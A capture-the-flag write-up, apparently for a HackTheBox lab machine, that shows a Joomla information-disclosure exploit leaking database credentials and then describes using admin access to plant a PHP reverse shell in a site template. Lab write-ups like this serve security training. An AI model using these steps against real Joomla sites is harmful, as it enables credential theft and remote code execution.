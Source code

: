 The web application is using Joomla 4.2.6. We can verify this by navigating to `http://dev.devvortex.htb/administrator/manifests/files/joomla.xml` which does show `4.2.6`

- publicly disclosed vulnerabilities
    - [Joomla 4.2.8 Unauthenticated Information Disclosure](https://www.exploit-db.com/exploits/51334)
- extensions
- templates
- users
- directory indexing




## Foothold

### Shell as www-data

- Lets start with using the Joomla 4.2.8 Unauthenticated Information Disclosure CVE:
```s
ruby joomla_4.2.8_info_disclosure.rb "http://dev.devvortex.htb"
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

- With the credentials: `lewis:P4ntherg0t1n5r3c0n##` I can authenticate to `http://dev.devvortex.htb/administrator`
- With site administrator privileges, I'll modify the template in use to execute php code and get me a reverse shell
- Navigating to the templates > Cassiopeia > offline.php
    - I actually couldn't find the templates so I had to update the dashboard to display the `Template Code` option
    - After navigating to offline.php, I slapped in the pentesting monkey's php reverse shell and change the ip and port
    - saved
- Starting a listener and navigating to `http://dev.devvortex.htb/templates/cassiopeia/offline.php` got me a reverse shell
